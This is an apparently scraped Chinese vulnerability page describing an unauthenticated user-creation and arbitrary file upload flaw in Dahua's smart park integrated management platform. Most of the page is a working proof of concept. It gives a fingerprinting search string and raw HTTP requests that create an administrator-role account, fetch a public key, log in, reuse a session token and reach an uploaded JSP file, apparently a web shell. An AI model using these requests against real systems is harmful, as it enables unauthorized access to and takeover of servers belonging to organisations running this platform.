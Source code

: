 # 大华 智慧园区综合管理平台 user_save.action 任意文件上传漏洞

## 漏洞描述

大华 智慧园区综合管理平台存在未授权访问漏洞，攻击者通过构造特殊的请求包可以创建新用户，再利用文件上传漏洞获取服务器权限

## 漏洞影响

<a-checkbox checked>大华 智慧园区综合管理平台</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="dahua-智慧园区综合管理平台"</a-checkbox></br>

## 漏洞复现

![img](../../../.vuepress/public/img/1645602936890-c40b0210-c98e-465a-b54d-4d5ce28cbdf1.png)



验证POC

```javascript
POST /admin/user_save.action HTTP/1.1
Host: 
Accept-Encoding: gzip
Content-Length: 914
Content-Type: multipart/form-data; boundary=----fxwrpqcy
Cookie: JSESSIONID=65A8F19555DC1EFB09B5A8B4F0F6921C
User-Agent: Go-http-client/1.1

------fxwrpqcy
Content-Disposition: form-data; name="userBean.userType"

0
------fxwrpqcy
Content-Disposition: form-data; name="userBean.ownerCode"

001
------fxwrpqcy
Content-Disposition: form-data; name="userBean.isReuse"

0
------fxwrpqcy
Content-Disposition: form-data; name="userBean.macStat"

0
------fxwrpqcy
Content-Disposition: form-data; name="userBean.roleIds"

1
------fxwrpqcy
Content-Disposition: form-data; name="userBean.loginName"

luqaahkf
------fxwrpqcy
Content-Disposition: form-data; name="displayedOrgName"

luqaahkf
------fxwrpqcy
Content-Disposition: form-data; name="userBean.loginPass"

lhndpuxl
------fxwrpqcy
Content-Disposition: form-data; name="checkPass"

lhndpuxl
------fxwrpqcy
Content-Disposition: form-data; name="userBean.groupId"

0
------fxwrpqcy
Content-Disposition: form-data; name="userBean.userName"

luqaahkf
------fxwrpqcy--
```

![img](../../../.vuepress/public/img/1685601550330-287abfda-6d44-4494-9112-62c036842714.png)

```javascript
POST /WPMS/getPublicKey HTTP/1.1
Host: 
Accept-Encoding: gzip
Content-Length: 25
Content-Type: application/json
User-Agent: Go-http-client/1.1

{"loginName":"luqaahkf"}
```

![img](../../../.vuepress/public/img/1685601590916-61722bfd-20d4-4ade-bbbd-6cd42868cd19.png)

```javascript
POST /WPMS/login HTTP/1.1
Host: 
Accept-Encoding: gzip
Content-Length: 271
Content-Type: application/json
User-Agent: Go-http-client/1.1

{"loginName":"luqaahkf","loginPass":"IxID6I8gKNSkCgu5UMwfRAhZpyvKKzu9q+dUngiieHiCTA52x3/uNB17NmAOletbzTOT46fLE5AOOMqMaqdDLA5rcsB3/Gql1qYwbNWLB6orKWpWEr9asUeNi/3ccIb95NUAXS1yn0l3ks94jbGT/CYbNq+JiBAeYlwcfdrqYkM=","timestamp":"16853622671401904168273612873678126378126387"}
```

![img](../../../.vuepress/public/img/1685601635490-0460ae22-a43f-41f6-b5f5-9c9f0fc1d25c.png)

```javascript
/admin/login_login.action?subSystemToken=87a629bc14298c1533d8b52dd63e87f7
```

![img](../../../.vuepress/public/img/1685601687291-eca6ddc6-ea74-48e4-8184-514d24160f33.png)

```javascript
/upload/axqvssmz.jsp
```

## 